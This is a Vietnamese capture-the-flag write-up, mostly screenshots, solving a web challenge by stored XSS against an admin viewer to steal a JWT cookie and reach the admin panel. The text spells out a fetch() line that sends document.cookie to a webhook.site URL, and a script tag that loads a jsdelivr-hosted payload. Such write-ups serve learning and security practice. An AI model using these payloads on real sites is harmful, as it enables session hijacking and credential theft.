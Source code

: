 ![image](https://github.com/user-attachments/assets/b9ec4381-b82f-45cb-8dd3-68feabe644e5)

Đây là giao diện của web:

![image](https://github.com/user-attachments/assets/0d49942e-06e9-4dab-b469-c4dc7ae6c403)

Đây là req khi tôi nhập mấy cái kia vào

![image](https://github.com/user-attachments/assets/0f42d521-353a-4e04-8d07-333db100e368)

Đọc src code thì thấy muốn vào được /admin thì phải có role là admin, khi tôi vào /admin thì bị đẩy về trang chính

![image](https://github.com/user-attachments/assets/14bb947b-995a-4a97-9010-6d5e4d204c89)

Đây là req khi tôi cố gắng vào /admin:

![image](https://github.com/user-attachments/assets/30b81e8f-39e1-4b9d-bbb9-6ce9b8fed795)

Sau khi tôi vào lại với req được gắn thêm content-type là json và json ở dưới:

![image](https://github.com/user-attachments/assets/391b3aa6-4cfe-4173-b9f7-d8a3c1225616)

Code của cái đấy đây:

![image](https://github.com/user-attachments/assets/3fbbdefe-f2b5-4911-a2a1-b2e6ecd6fd1f)

Nó còn có cả jwt token nữa:

![image](https://github.com/user-attachments/assets/2efd11b4-cd39-4e87-a607-f4378c0660d3)

Vậy thì vấn đề ở đây là làm sao để có thể có jwt token, để ý quay lại cái trang đầu tiên 

![image](https://github.com/user-attachments/assets/54bd0e7d-b69b-4b57-b658-3054ac772f6c)

Trong admin.html có hiện ra cho admin xem thông tin mà tôi vừa gửi:

![image](https://github.com/user-attachments/assets/5a353124-8549-454e-8009-08f26174c358)

Ở đây server có ghi là họ sẽ xem cái req, vậy có thể sẽ có xss ở đây, tôi tạo 1 cái repo trong github và dùng [jsdelivr](https://www.jsdelivr.com/?docs=gh) để cho cái repo này lên:

![image](https://github.com/user-attachments/assets/1533e0b6-5ce1-49d2-8a92-6246520dd979)

Và chỉ cần thế này thôi, thêm cái `fetch('https://webhook.site/41523503-904f-4a66-8a77-37cb0877eef4/?test=' + document.cookie);`:

![image](https://github.com/user-attachments/assets/7f395edd-2ea8-42ec-9ffc-2617ca4bec9e)

Chuyển thành script và gửi đi:

![image](https://github.com/user-attachments/assets/9eb2e833-da66-4d0a-9100-e58b40523cf1)

Payload là đây `<script src='https://cdn.jsdelivr.net/gh/namdt5125/XSS_Test/xss.js'></script>`, đã lấy được jwt token:

![image](https://github.com/user-attachments/assets/e25857da-8347-4fb8-9216-701630d5eacb)

Thêm cái cookie và gửi, vào được admin panel, flag ở cái jwt token sau khi decode:

![image](https://github.com/user-attachments/assets/95d9193c-3a9a-4a44-81ae-0b223625b1cc)
















